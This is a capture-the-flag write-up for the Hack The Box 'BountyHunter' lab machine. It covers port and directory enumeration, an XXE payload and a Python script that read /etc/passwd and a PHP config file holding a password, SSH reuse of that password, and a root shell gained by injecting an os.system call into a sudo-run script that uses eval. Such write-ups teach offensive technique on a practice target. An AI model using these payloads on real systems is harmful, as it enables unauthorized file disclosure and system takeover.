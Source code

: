 ![](bountyHunter_banner.png)

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.11.100 bountyHunter.htb

**nmap scan:**
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d4:4c:f5:79:9a:79:a3:b0:f1:66:25:52:c9:53:1f:e1 (RSA)
|   256 a2:1e:67:61:8d:2f:7a:37:a7:ba:3b:51:08:e8:89:a6 (ECDSA)
|_  256 a5:75:16:d9:69:58:50:4a:14:11:7a:42:c1:b6:23:44 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Bounty Hunters
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

From web server on port 80, `/portal.php` lead to `/log_submit.php`

![](screenshots/log-submit.png)

This page takes users input and send it in xml form as base64 encoded strings. 

![](screenshots/send-report.png)

![](screenshots/xml-data.png)

From gobuster found a interesting file.
```bash
gobuster dir -u "http://10.10.11.100" -w /usr/share/seclists/Discovery/Web-Content/raft-small-files-lowercase.txt

/db.php               (Status: 200) [Size: 0]
```

# Foothold

## xxe

Testing xxe and get `/etc/passwd` file from xxe payload.
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
    <!ELEMENT foo ANY>
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
        <bugreport>
        <title>&xxe;</title>
        <cwe>test</cwe>
        <cvss>test</cvss>
        <reward>test</reward>
        </bugreport>
```

![](screenshots/xxe-injection.png)

Simple python script to automate xxe
```py
import re
import sys
import requests as r
import base64

url = "http://10.10.11.100/tracker_diRbPr00f314.php"
payload = "php://filter/convert.base64-encode/resource=db.php"
# payload = "file:///etc/passwd"
# payload = sys.argv[1]

data = f"""<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
    <!ELEMENT foo ANY>
    <!ENTITY xxe SYSTEM "{payload}">
]>
        <bugreport>
        <title>&xxe;</title>
        <cwe>test</cwe>
        <cvss>test</cvss>
        <reward>test</reward>
        </bugreport>""".encode('ascii')

postdata = {"data": base64.b64encode(data).decode('ascii')}
rspn = r.post(url, data=postdata)
# print(rspn.text)

filter_rspn = re.findall('<td>(.*?)</td>', rspn.text, re.DOTALL)[1]
try:
    b64decode = base64.b64decode(filter_rspn).decode()
    print(bytes(b64decode, 'utf-8').decode('unicode_escape'))
except Exception:
    print(filter_rspn)
```

* Get username from `/etc/passwd`: "`development`"
* And db creds from: `db.php`: "`m19RoAU0hP41A1sTsq6K`"

database password worked for user "development" ssh login.

# Privesc

## python script logic

User "development" can run a python script `/opt/skytrain_inc/ticketValidator.py` with sudo
```bash
development@bountyhunter:~$ sudo -l
Matching Defaults entries for development on bountyhunter:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User development may run the following commands on bountyhunter:
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```

This script doing something

![](screenshots/ticket-script.png)

because script is not sanitizing input and directly send it to eval with some conditions, we only need to pass some checks and get code execuation.
```bash
# Skytrain Inc
## Ticket to hell
__Ticket Code:__
**11 + 90 == 101 and __import__('os').system('/bin/bash')
```

![](screenshots/rooted.png)